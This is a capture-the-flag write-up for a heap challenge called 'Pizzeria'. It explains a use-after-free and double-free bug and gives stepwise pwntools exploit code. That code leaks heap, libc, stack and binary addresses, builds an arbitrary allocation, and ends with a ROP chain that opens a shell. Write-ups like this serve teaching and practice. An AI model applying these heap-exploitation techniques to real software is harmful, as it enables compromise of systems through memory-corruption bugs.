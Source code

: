 # Pizzeria
```
 ____    _                        _ 
|  _ \  | |      __ _  _ __    __| |
| |_) | | |     / _` || '_ \  / _` |
|  _ <  | |___ | (_| || | | || (_| |
|_| \_\ |_____| \__,_||_| |_| \__,_|

 ____   _                        _        
|  _ \ (_) ____ ____  ___  _ __ (_)  __ _ 
| |_) || ||_  /|_  / / _ \| '__|| | / _` |
|  __/ | | / /  / / |  __/| |   | || (_| |
|_|    |_|/___|/___| \___||_|   |_| \__,_|

Choose one of the following options:
1. Add topping
2. Customize topping
3. Remove topping
4. Verify toppings
5. Bake Pizza
Enter your choice : 
```

This challenge is a pizza-topping picker. It contains a list of allowed toppings:
- Tomato, Onion, Capsicum, Corn, Mushroom, Pineapple, Olives, Double Cheese, Paneer, Chicken

And it lets you add a chosen quantity (up to 63) of any one of these toppings:
```
Enter your choice : 1

Which topping ?
Tomato
How much ?
8
Ok, adding Tomato
```

You can customize your toppings, which lets you edit its contents:
```
Enter your choice : 2

Which one to customize ?
Tomato
Enter new modified topping : San Marzano
New topping added successfully !
```

You can check the contents of a topping:
```
Enter your choice : 4

Which topping to verify ?
Tomato
San Marzano
```

And you can remove toppings:
```
Enter your choice : 3

Which topping to remove ?
Tomato
Tomato removed successfully !
```

Lastly, you can leave:
```
Enter your choice : 5

Baking ....
Here it is : 🍕
```
# How it works
"Toppings" are just strings allocated with `malloc`. Adding means allocating, removing means freeing, customizing means reading and verifying means writing. Leaving frees all the toppings and exits (doesn't return).
Each topping is a `char[]` with size `8*input_size`, and the max `input_size` is 63, so the biggest chunk you can get is 0x200.

Toppings are stored on the stack along with their sizes and with the list of allowed toppings, like this:
```c
int sizes[10];
char* allocated_toppings[10];
char* allowed_toppings[10];
```
# Vulnerability
Here's a simplified view of the `remove_topping` function:
```c
void remove_topping(char** allocated_toppings, char** allowed_toppings, int* sizes) {
    char chosen_topping[15];
    int idx;

    puts("Which topping to remove ?");
    fgets(chosen_topping, 15, stdin);
    chosen_topping[strcspn(chosen_topping, "\n")] = 0;
    idx = get_index(chosen_topping, allowed_toppings);
    free(allocated_toppings[idx]);
    sizes[idx] = 0;
    printf("%s removed successfully !\n", allowed_toppings[idx]);
}
```

It doesn't set `allocated_toppings[idx]` to `NULL`, meaning we can keep using that topping even though it's now a freed chunk. This is a UAF (User After Free).

The binary has all protections turned on and uses libc 2.35.
# Attack
We can allocate a chunk, free it, and then read it to leak the heap via a tcache forward pointer:
```python
io = conn()

malloc(io, toppings[0], 63)
free(io, toppings[0])
heap = u64(read(io, toppings[0]).ljust(8, b'\0')) << 12
aleak("heap", heap)
```

The biggest chunk size we can have is 0x200, which fits in the tcache but not in the fastbin, so if we fill the tcache and free another chunk, it'll end up in the unsorted bin giving us a libc leak:
```python
for i in range(7): malloc(io, toppings[i], 63)
malloc(io, toppings[7], 63)
malloc(io, toppings[8], 63) # barrier to avoid top chunk consolidation
for i in range(7): free(io, toppings[i])
free(io, toppings[7])
free(io, toppings[8])

libc.address = u64(read(io, toppings[7]).ljust(8, b'\0')) - (libc.sym.main_arena+96)
aleak("libc", libc.address)
```

We can also do a double free, first filling the tcache, then triggering the double free, and then empty the tcache and allocate again, which will move the chunks from the fastbin to the tcache. This lets us have the same chunk both allocated and freed at the same time, letting us overwrite its tcache forward pointer and achieve arbitrary allocation.
I chose to allocate onto the tcache pointer for 0x200 chunks since its counter was 7 from when I leaked libc and that's enough allocations to finish the exploit:
```python
addr = (heap + 0x180) ^ ((heap + 0x1000) >> 12)

for i in range(7): malloc(io, toppings[i], 10)
malloc(io, toppings[7], 10)
malloc(io, toppings[8], 10)
for i in range(7): free(io, toppings[i])
free(io, toppings[7])
free(io, toppings[8])
free(io, toppings[7])

for i in range(7): malloc(io, toppings[i], 10)
malloc(io, toppings[7], 10)
edit(io, toppings[7], p64(addr))
malloc(io, toppings[8], 10)
malloc(io, toppings[9], 10)
malloc(io, toppings[9], 10) # now we can modify this chunk with any address we want to allocate
```

Now I allocated a chunk onto `environ` to leak the stack:
```python
edit(io, toppings[9], p64(libc.sym.environ))
malloc(io, toppings[0], 63)
stack = u64(read(io, toppings[0]).ljust(8, b'\0'))
aleak("stack", stack)
```

And onto some pointer to the binary on the stack to leak the binary's base:
```python
pie_ret = stack - 0x188
edit(io, toppings[9], p64(pie_ret))
malloc(io, toppings[0], 63)
exe.address = u64(read(io, toppings[0]).ljust(8, b'\0')) - 0x23db
aleak("exe", exe.address)
```

I used one of the allowed toppings' strings to leak the binary's base, which fucked the next one up (it seems that malloc sets `*(chunk_addr+8)` to 0), so I had to fix it or the binary would crash:
```python
edit(io, toppings[0], flat(exe.address + 0x23db, exe.address + 0x23e2))
```

Both canaries and return pointers are at non-16 aligned addresses, so I couldn't just allocate onto them. I decided to allocate onto the list of allocated toppings to have infinite and truly arbitrary allocations:
```python
edit(io, toppings[9], p64(stack - 0x1d8))
malloc(io, toppings[8], 63)
```

The `bake_pizza` function doesn't actually `return`, it just calls `exit`, so I chose to allocate onto `customize_topping`'s return pointer, that way it would return right after my edit. And i overwrote it with a rop chain:
```python
edit(io, toppings[8], p64(stack-0x220))
rop = ROP([exe, libc])
rop.raw(rop.ret)
rop.system(libc.binsh())
edit(io, toppings[0], rop.chain())
```

And BOOM 💥 we've popped a shell!
Really nice challenge, I enjoyed it very much.
